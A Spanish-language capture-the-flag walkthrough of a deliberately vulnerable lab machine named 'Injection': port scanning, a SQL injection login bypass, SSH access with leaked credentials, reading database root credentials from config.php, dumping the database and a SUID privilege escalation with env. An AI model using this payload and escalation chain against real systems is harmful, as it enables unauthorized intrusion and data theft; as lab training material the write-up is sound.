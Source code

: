 Nombre de la máquina: Injection
Dificultad: Muy fácil 
Tiempo: 1 hora


Empezamos con un escaneo normal:

`
nmap 172.17.0.3
`

En el que obtenemos como respuesta que los puertos 22/TCP y 80/TCP están abiertos. 

Al tener esta información, podemos ser ya un poco más especificos e intentar obtener más datos que nos puedan ayudar:

`
nmap 172.17.0.3 -sV -p 22,80
`

Obtenemos como respuesta:
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))


Como en el puerto 80/TCP está corriendo una página web, probaremos a poner en nuestro navegador 172.17.0.3 para ver que tipo de página es. 
La web que está alojando Apache es una página de login, como la máquina se llama Injection, suponemos que será algo relacionado con SQLInjection y probaremos a introducir en el campo del nombre " admin' or 1=1; " y la contraseña cualquier cosa. 

Con eso hemos conseguido acceder y visualizar el siguiente mensaje:

`Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78`

Tenemos un nombre de usuario (Dylan) y un código (KJSDFG789FGSDF78) que puede ser una contraseña. Probamos a conectarnos por ssh con esas credenciales:

`
ssh dylan@172.17.0.3 
` 

El acceso fue exitoso. Ya estamos dentro de la máquina. Con sudo -l obtuve una respuesta de que el comando no existía asi que no se me ocurría una forma de poder escalar privilegios, estuve explorando las carpetas de ssh y tampoco encontré nada. Sin embargo, en las carpetas del servidor web, /var/www/html haciendo un cat del archivo config.php:

`
<?php
return [
        'db' => [
                'host' => 'localhost',
                'user' => 'root',
                'passwd' => 'paso',
                'dbname' => 'register',
                'options' => [
                        PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION
                ]
        ]
];
?>
` 

Intentaremos conectarnos con mysql utilizando esas credenciales:
`
mysql -u root -ppaso
`

Hacemos un:
`
show databases;
 use register;
 select * from users;
 ` 
Aunque ya sabemos que existe una base de datos llamada register, pues aparece en config.php, obtenemos:
`
+----------+------------------+
| username | passwd           |
+----------+------------------+
| dylan    | KJSDFG789FGSDF78 |
+----------+------------------+
` 

Era información que ya teniamos, pero probaremos lo siguiente:
`
INSERT INTO users VALUES ('prueba','123456');
INSERT INTO users VALUES ('prueba','123456');
DELETE FROM users WHERE username='prueba1';
`
Todas las consultas fueron exitosas, por lo que podemos decir que tenemos control sobre esa base de datos, pues podemos crear y eliminar los que queramos. Al igual que hacer un:
`
mysqldump --databases register -u root -ppaso > datos.sql
`
Para obtener los datos.

Aunque aún no fuimos capaces de escalar privilegios en la máquina. 


`find / -perm -4000 -user root 2>/dev/null`

`/usr/bin/env /bin/bash -p`











